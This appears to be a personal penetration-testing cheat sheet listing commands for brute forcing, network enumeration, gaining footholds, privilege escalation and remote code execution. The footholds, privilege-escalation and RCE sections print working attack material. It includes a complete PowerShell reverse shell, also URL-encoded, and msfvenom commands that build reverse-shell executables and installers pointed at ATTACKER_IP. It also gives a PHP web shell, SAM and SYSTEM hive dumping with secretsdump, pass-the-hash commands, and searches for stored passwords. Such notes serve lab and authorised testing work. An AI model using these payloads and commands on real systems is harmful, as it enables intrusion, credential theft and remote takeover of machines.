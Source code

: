 # Basic Commands

### Python

python3 -m http.server PORT

### RDP

xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:ip_address /u:Administrator /p:'password'

### SSH

chmod 600 deployment_key.txt
ssh -i deployment_key.txt user@ip_address

### SMB

`smbclient //IP_ADDRESS/SHARE`
-U user
-p port
(username anonymous and no password for anonymous login)
to download share:
`smbget -R smb://IP_ADDRESS/SHARE`

### TCPDump

`sudo tcpdump port # -A`

### Windows

sc qc - get info about a service. See unquoted service paths.
sc stop/start - stop and start services.
icacls - check permissions.
icacls FILE /grant GROUP:PERMISSIONS
whoami /priv
wmic product get name,version,vendor - list installed software and versions
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\FILE 


Brute-Forcing
#fcrackzip
fcrackzip -b -v -u file.zip (to brute force)
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u file.zip (dictionary) 
#Hydra
hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt IP_ADDRESS -t THREAD_COUNT PROTOCOL_NAME
-s PORT (for non-default port numbers)
-d to show debugging info
sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"



Enumeration

#Active Directory
gpresult /r (get domain controller computer is getting group policy from)
Set Logonserver

#Nmap
nmap -sn ADDRESSRANGE
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP

#SMB
enum4linux OPTIONS IP_ADDRESS
-U get userlist
-M get machine list
-N get namelist dump (different from -U and-M)
-S get sharelist
-P get password policy information
-G get group and member list
-a all of the above (full basic enumeration) 



Footholds

#PentestMonkey Cheatsheet
https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

#PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

#PHP Shell
/usr/share/webshells/php/php-reverse-shell.php

#Powershell Reverse Shell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
#URL-Encoded
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

#Python
python -c 'import pty;pty.spawn("/bin/bash")'

#Stabilize Shell
export TERM=xterm
(ctrl+z)
stty raw -echo; fg



Privesc

#GTFOBins
https://gtfobins.github.io

#Linux
sudo -l
sudo -u#-1 /bin/bash (if ALL in output of above command and sudo 1.8.27 or prior)
sudo apache2 -f /etc/shadow (reads first line if apache2 runs as sudo)
hostname
cat /proc/version OR /etc/issue
ps axjf (process tree)
ps aux (user info)
env
cat /etc/shells
find / -perm -u=s -type f 2>/dev/null
#world-writable files: /tmp, /dev/shm,/var/lock, /run/lock
find / -writable 2>/dev/null
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
#find world executable folders:
find / -perm -o x -type d 2>/dev/null
#dev tools and supported languages
find / -name perl* 2>/dev/null (gcc, python)
strings BINARY
export PATH=$PATH:/place/with/the/file
getcap -r / 2>/dev/null (check for capabilities on binaries)
cat /etc/crontab
cat /etc/exports (NFS configuration)
showmount -e IP_ADDRESS


#Windows
#Priv2Admin
https://github.com/gtworek/Priv2Admin

Leftover credentials from unattended installations: 
C:\Unattend.xml 
C:\Windows\Panther\Unattend.xml 
C:\Windows\Panther\Unattend\Unattend.xml 
C:\Windows\system32\sysprep.inf 
C:\Windows\system32\sysprep\sysprep.xml

Retrieve password history from cmd.exe:
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Powershell:
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

View saved credentials:
cmdkey /list
( to use creds )
runas /savecred /user:admin cmd.exe
Search registry for passwords:
reg query HKLM /f password /t REG_SZ /s

Generate malicious exe:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
Change path to malicious .exe on configurable service:
sc config SERVICE_NAME binPath= "C:\PATH_TO_MALICIOUS_EXE" obj= ACCOUNT

If SeBackup Privilege:
reg save hklm\system OUTFILE.hive
reg save hklm\sam OUTFILE.hive
Copy to impacket-smbserver:
impacket-smbserver -smb2support -username USER -password PASSWORD SHARENAME DIRECTORY 
impacket-secretsdump -sam sam.hive -system system.hive LOCAL

Pass the hash:
impacket-psexec -hashes HASH USER@IP_ADDRESS
pth-winexe -U 'username%hash' //MACHINE_IP cmd.exe

Check Autorun:
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

AlwaysInstallElevated:
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP_ADDRESS LPORT=53 -f msi -o reverse.msi
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi



RCE
#PHP
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
( execute using URL/uploads/shell.php?cmd= )

